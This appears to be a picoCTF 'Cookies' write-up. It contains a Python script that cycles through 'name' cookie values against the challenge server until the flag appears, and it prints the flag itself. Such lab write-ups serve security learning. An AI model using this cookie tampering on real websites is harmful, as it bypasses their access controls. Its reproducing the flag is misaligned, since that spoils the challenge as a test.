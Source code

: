 <h1>Cookies</h1>
<h3>Description</h3>
<pre>
Who doesn't love cookies? Try to figure out the best one. <a href='http://mercury.picoctf.net:27177/'>Link</a>
</pre>
<h3>Solution</h3>

<p>Check semua cookie name 1 s/d 30</p>

```python3
import requests

s = requests.Session()
for i in range(1,30):
    url = 'http://mercury.picoctf.net:27177/'
    cookies = {"name":str(i)}
    res = s.get(url,cookies=cookies).text
    if "picoCTF{" in res:
        search = 'Flag</b>: <code>'
        end = '</code>'
        index_start = res[res.find(search)+len(search):]
        index_end = index_start.find(end)
        print("Cookie "+str(i)+" : "+index_start[:index_end])
        break
    else:
        search = 'font-size:30px;"><b>'
        end = '</b></p>'
        index_start = res[res.find(search)+len(search):]
        index_end = index_start.find(end)
        print("Cookie "+str(i)+" : "+index_start[:index_end])
        
```
<h3>Flag</h3>
<pre>
picoCTF{3v3ry1_l0v3s_c00k135_064663be}
</pre>
